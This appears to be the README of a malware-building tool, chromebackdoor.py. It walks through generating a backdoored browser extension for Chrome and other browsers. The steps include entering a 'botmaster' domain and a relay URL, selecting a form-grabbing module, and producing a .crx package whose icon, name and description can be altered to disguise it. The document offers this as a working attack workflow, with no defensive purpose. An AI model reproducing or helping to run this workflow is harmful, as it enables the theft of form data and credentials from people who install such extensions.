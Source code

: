 #INSTALL

install all dependency & start chromebackdoor.py

```sh
python chromebackdoor.py
```

You can generate backdoor for all most popular browser

exemple for Google Chrome:

```sh
python chromebackdoor.py --chrome
```

Now enter a botmaster domain name (need SSL):

```bash
[?] Website hosted (https://localhost/)? https://lynxframework.com/
```
Same for relais (need SSL):
```sh
[?] Website relais url (https://localhost/relais)? https://lynxrelay.com/relais
```
```sh
[?] Information correct [Y/n]? Y
```

Select one module (exemple FormGrabber V1.0)
```sh
[?] please select numbers ? 2
```

The script  generate zip file with .crx .perm and backdoor folder for update icon / name / desc
